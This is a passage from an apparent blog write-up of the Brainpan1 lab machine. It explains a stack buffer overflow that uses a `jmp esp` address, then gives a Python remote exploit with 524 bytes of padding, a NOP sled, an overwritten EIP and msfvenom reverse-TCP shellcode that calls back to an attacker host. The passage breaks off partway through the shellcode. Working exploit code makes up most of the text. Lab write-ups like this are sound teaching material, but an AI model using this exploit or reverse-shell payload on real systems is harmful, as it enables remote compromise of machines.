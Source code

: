All the addresses end with a null byte which makes it hard / impossible to jump to. However if you notice, the stack pointer (ESP) points to the beginning of our buffer after overwritten EIP. That means that if we overwrite the address of a `jmp esp` instruction we can hop right into our shellcode! Use `CTRL-F`, search for the instruction and copy the address.

<img src="/img/blog/brainpan1/brainpan1-07.png">  

You can use any shellcode but I'll simply stick to one generated with msfvenom. Here is the remote exploit:
  
{% highlight python %}

#!/usr/bin/python

import socket
import struct
import time

TARGET = "192.168.0.228" #110 for brainpan
PORT = 9999

PADDING = "A" * 524
NOP = "\x90" * 64
EIP = struct.pack("I", 0x311712F3) #Location of jmp esp which points to NOPS

#msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.66 LPORT=3333 -f py -b '\x00' || CATCH WITH handler

SC  = "\xda\xcc\xbb\x3c\xcc\x27\xd6\xd9\x74\x24\xf4\x5e\x31"
SC += "\xc9\xb1\x54\x83\xc6\x04\x31\x5e\x14\x03\x5e\x28\x2e"
SC += "\xd2\x2a\xb8\x2c\x1d\xd3\x38\x51\x97\x36\x09\x51\xc3"
SC += "\x33\x39\x61\x87\x16\xb5\x0a\xc5\x82\x4e\x7e\xc2\xa5"
SC += "\xe7\x35\x34\x8b\xf8\x66\x04\x8a\x7a\x75\x59\x6c\x43"
SC += "\xb6\xac\x6d\x84\xab\x5d\x3f\x5d\xa7\xf0\xd0\xea\xfd"
SC += "\xc8\x5b\xa0\x10\x49\xbf\x70\x12\x78\x6e\x0b\x4d\x5a"
SC += "\x90\xd8\xe5\xd3\x8a\x3d\xc3\xaa\x21\xf5\xbf\x2c\xe0"
SC += "\xc4\x40\x82\xcd\xe9\xb2\xda\x0a\xcd\x2c\xa9\x62\x2e"
SC += "\xd0\xaa\xb0\x4d\x0e\x3e\x23\xf5\xc5\x98\x8f\x04\x09"
SC += "\x7e\x5b\x0a\xe6\xf4\x03\x0e\xf9\xd9\x3f\x2a\x72\xdc"
SC += "\xef\xbb\xc0\xfb\x2b\xe0\x93\x62\x6d\x4c\x75\x9a\x6d"
SC += "\x2f\x2a\x3e\xe5\xdd\x3f\x33\xa4\x89\x8c\x7e\x57\x49"
SC += "\x9b\x09\x24\x7b\x04\xa2\xa2\x37\xcd\x6c\x34\x38\xe4"
SC += "\xc9\xaa\xc7\x07\x2a\xe2\x03\x53\x7a\x9c\xa2\xdc\x11"
SC += "\x5c\x4b\x09\x8f\x59\xdb\x72\xf8\x62\x59\x1b\xfb\x62"
SC += "\x50\xde\x72\x84\x3a\xb0\xd4\x19\xfa\x60\x95\xc9\x92"
SC += "\x6a\x1a\x35\x82\x94\xf0\x5e\x28\x7b\xad\x37\xc4\xe2"
SC += "\xf4\xcc\x75\xea\x22\xa9\xb5\x60\xc7\x4d\x7b\x81\xa2"
SC += "\x5d\x6b\xf0\x4c\x9e\x6b\x99\x4c\xf4\x6f\x0b\x1a\x60"
SC += "\x6d\x6a\x6c\x2f\x8e\x59\xee\x28\x70\x1c\xc7\x43\x46"
SC += "\x8a\x67\x3c\xa6\x5a\x68\xbc\xf0\x30\x68\xd4\xa4\x60"
SC += "\x3b\xc1\xab\xbc\x2f\x5a\x39\x3f\x06\x0e\xea\x57\xa4"
SC += "\x69\xdc\xf7\x57\x5c\x5f\xff\xa8\x22\x7d\x58\xc1\xdc"
SC += "\xc1\x58\x11\xb7\xc1\x08\x79\x4c\xee\xa7\x49\xad\x25"
SC += "\xe0\xc1\x24\xab\x42\x73\x38\xe6\x03\x2d\x39\x04\x98"
SC += "\x38\xb4\xeb\x1f\x45\x36\xd0\xc9\x7c\x4c\x11\xca\x3a"